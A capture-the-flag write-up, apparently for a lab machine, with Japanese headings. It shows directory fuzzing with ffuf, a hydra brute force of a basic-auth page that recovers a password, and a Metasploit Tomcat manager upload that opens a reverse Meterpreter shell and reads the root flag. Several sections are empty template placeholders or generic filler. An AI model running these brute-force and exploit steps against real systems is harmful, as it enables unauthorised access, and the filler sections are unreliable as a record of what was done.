

## 概要

| 項目 | 内容 |
|---------------------------|-------|
| OS | Linux |
| 難易度 | 記録なし |
| 攻撃対象 | 記録なし |
| 主な侵入経路 | web, ssh attack path to foothold |
| 権限昇格経路 | Local misconfiguration or credential reuse to elevate privileges |

## 偵察

### 1. PortScan

---
## Rustscan

💡 なぜ有効か  
High-quality reconnaissance narrows a large attack surface into a few validated exploitation paths. Accurate service mapping prevents time loss and supports targeted follow-up testing.

## 初期足がかり

### Not implemented (not recorded in PDF)


## Nmap


### Not implemented (not recorded in PDF)


### 2. Local Shell

---

PDFメモから抽出した主要コマンドと要点を整理しています。必要に応じて後続で詳細追記してください。

### 実行コマンド（抽出）
```
time hydra -l bob -P /usr/share/wordlists/rockyou.txt $ip http-get /protected
```

### 抽出画像


*Caption: Screenshot captured during toolsrus attack workflow (step 1).*

### 抽出メモ（先頭120行）
```bash
ｃ
August 14, 2024 0:01

#1 What directory can you find, that begins with a "g"?
Answer this because guideline was found when searching the directory
┌──(n0z0㉿LAPTOP-P490FVC2)-[~/tools]
└─$ ffuf -w /usr/share/seclists/Discovery/Web-Content/directory-list-1.0.txt -u http://$ip/FUZZ -recursion -recursion-depth 1 -ic -c
/'___\  /'___\           /'___\
/\ \__/ /\ \__/  __  __  /\ \__/
\ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
\ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
\ \_\   \ \_\  \ \____/  \ \_\
\/_/    \/_/   \/___/    \/_/
v2.1.0-dev
________________________________________________
:: Method           : GET
:: URL              : http://10.10.222.78/FUZZ
:: Wordlist         : FUZZ: /usr/share/seclists/Discovery/Web-Content/directory-list-1.0.txt
:: Follow redirects : false
:: Calibration      : false
:: Timeout          : 10
:: Threads          : 40
:: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________
[Status: 200, Size: 168, Words: 16, Lines: 5, Duration: 314ms]
guidelines              [Status: 301, Size: 317, Words: 20, Lines: 10, Duration: 250ms]
[INFO] Adding a new job to the queue: http://10.10.222.78/guidelines/FUZZ
protected               [Status: 401, Size: 459, Words: 42, Lines: 15, Duration: 250ms]
[INFO] Starting queued job on target: http://10.10.222.78/guidelines/FUZZ
[Status: 200, Size: 51, Words: 8, Lines: 2, Duration: 242ms]
:: Progress: [141695/141695] :: Job [2/2] :: 135 req/sec :: Duration: [0:14:47] :: Errors: 0 ::
#2 Whose name can you find from this directory?
When I accessed the guideline, something that looked like a user appeared, so I answered.
#3 What directory has basic authentication?
This is also an answer because protected was found when searching the directory.
#4 What is bob's password to the protected part of the website?
Brute force password answer for basic authentication
┌──(n0z0㉿LAPTOP-P490FVC2)-[~]
└─$ time hydra -l bob -P /usr/share/wordlists/rockyou.txt $ip http-get /protected
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is n
*** ignore laws and ethics anyway).
OneNote
1/3
Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-08-13 21:41:05
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344398 login tries (l:1/p:14344398), ~896525 tries per task
[DATA] attacking http-get://10.10.222.78:80/protected
[80][http-get] host: 10.10.222.78   login: bob   password: bubbles
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2024-08-13 21:41:08
real    0m3.455s
user    0m0.679s
sys     0m0.216s
#4 What other port that serves a webs service is open on the machine?
Answer from nmap results
#5 What is the name and version of the software running on the port from question 5?
Answer from nmap results
Use Metasploit to exploit the service and get a shell on the system.
What user did you get a shell as?
Since Tomcat is old, it seems that this vulnerability can be used.
(Looks like this requires online research...)
msf6 exploit(multi/http/tomcat_mgr_upload) > run
[*] Started reverse TCP handler on 10.11.87.75:4444
[*] Retrieving session ID and CSRF token...
[*] Uploading and deploying roykvgYXisTBvlWLYjOAbLOH...
[*] Executing roykvgYXisTBvlWLYjOAbLOH...
[*] Sending stage (57971 bytes) to 10.10.222.78
[*] Undeploying roykvgYXisTBvlWLYjOAbLOH ...
[*] Undeployed at /manager/html/undeploy
[*] Meterpreter session 1 opened (10.11.87.75:4444 -> 10.10.222.78:48374) at 2024-08-13 23:51:12 +0900
meterpreter > pwd
/
meterpreter > cd /root
meterpreter > dir
Listing: /root
==============
Mode              Size  Type  Last modified              Name
----              ----  ----  -------------              ----
100667/rw-rw-rwx  47    fil   2019-03-12 01:06:14 +0900  .bash_history
100667/rw-rw-rwx  3106  fil   2015-10-23 02:15:21 +0900  .bashrc
040777/rwxrwxrwx  4096  dir   2019-03-12 00:30:33 +0900  .nano
100667/rw-rw-rwx  148   fil   2015-08-18 00:30:33 +0900  .profile
040777/rwxrwxrwx  4096  dir   2019-03-11 06:52:32 +0900  .ssh
100667/rw-rw-rwx  658   fil   2019-03-12 01:05:22 +0900  .viminfo
100666/rw-rw-rw-  33    fil   2019-03-12 01:05:22 +0900  flag.txt
040776/rwxrwxrw-  4096  dir   2019-03-11 06:52:43 +0900  snap
meterpreter > cat flag.txt
ff1fc4a81affcc7688cf89ae7dc6e0e1
meterpreter >
completion
OneNote
2/3
OneNote
3/3
```

### Not implemented (not recorded in PDF)


💡 なぜ有効か  
Initial access succeeds when enumeration findings are turned into a practical exploit chain. Capturing credentials, file disclosure, or direct RCE creates reliable pivot points for privilege escalation.

## 権限昇格

### 3.Privilege Escalation

---

Privilege elevation related commands extracted from PDF memo.

💡 なぜ有効か  
Privilege escalation depends on chaining local weaknesses such as sudo misconfiguration, weak file permissions, or credential reuse. If a GTFOBins technique is used, the mechanism is that an allowed binary executes a child process or shell without dropping elevated effective privileges.

## 認証情報

```text
└─$ ffuf -w /usr/share/seclists/Discovery/Web-Content/directory-list-1.0.txt -u http://$ip/FUZZ -recursion -recursion-depth 1 -ic -c
\/_/    \/_/   \/___/    \/_/
:: URL              : http://10.10.222.78/FUZZ
:: Wordlist         : FUZZ: /usr/share/seclists/Discovery/Web-Content/directory-list-1.0.txt
[INFO] Adding a new job to the queue: http://10.10.222.78/guidelines/FUZZ
[INFO] Starting queued job on target: http://10.10.222.78/guidelines/FUZZ
:: Progress: [141695/141695] :: Job [2/2] :: 135 req/sec :: Duration: [0:14:47] :: Errors: 0 ::
#4 What is bob's password to the protected part of the website?
└─$ time hydra -l bob -P /usr/share/wordlists/rockyou.txt $ip http-get /protected
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is n
2026/02/27 18:48
Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-08-13 21:41:05
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344398 login tries (l:1/p:14344398), ~896525 tries per task
[DATA] attacking http-get://10.10.222.78:80/protected
[80][http-get] host: 10.10.222.78   login: bob   password: bubbles
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2024-08-13 21:41:08
msf6 exploit(multi/http/tomcat_mgr_upload) > run
[*] Undeployed at /manager/html/undeploy
```

## まとめ・学んだこと

### 4.Overview

---




## 参考文献

- nmap
- rustscan
- ffuf
- hydra
- metasploit
- ssh
- cat
- find
- GTFOBins
